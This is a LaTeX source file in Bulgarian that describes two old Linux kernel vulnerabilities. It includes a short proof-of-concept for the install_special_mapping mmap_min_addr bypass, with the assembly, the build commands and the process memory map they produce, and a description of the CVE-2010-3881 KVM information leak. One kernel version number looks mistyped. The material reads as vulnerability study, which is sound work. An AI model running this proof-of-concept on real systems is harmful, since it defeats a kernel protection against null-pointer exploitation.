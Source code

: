 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Описание}
\paragraph{}
Функцията \textit{install\_special\_mapping} в\textit{ mm/mmap.c} в Linux ядрата преди 2.6.37-rc6 не извиква функцията \textit{security\_file\_mmap}, което позволява да се заобиколят зададените \textit{mmap\_min\_addr} ограничения и евентуално да се извърши атака с дереференциране на нулев указател, чрез специално създадена програма на асемблер.

\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-07-19
  	\item Добива публичност: 2010-11-13
    \item Оправен: 2010-12-15\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}
\end{itemize}


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\paragraph{}
arch/x86/kvm/x86.c в Linux ядрата преди 2.3.36.2 не инициализира някои членове на структурите \textit{kvm\_vcpu\_events}, \textit{kvm\_debugregs}, \textit{kvm\_pit\_state2} и \textit{kvm\_clock\_data}, което позволява обикновен потребител евентуално да получи важна информация от стека на паметта на ядрото чрез операции за четене върху /dev/kvm устройството\footnote{KVM - Kernel-based Virtual Machine - пълно решение за виртуализация на Linux за x86 хардуер. Съдържа разширение - Intel VT или AMD-V. Състои се от модул към ядрото \textit{kvm.ko} и специфични за процесора разширения \textit{kv-intel.ko} и \textit{kvm-amd.ko}}.
\end{document}
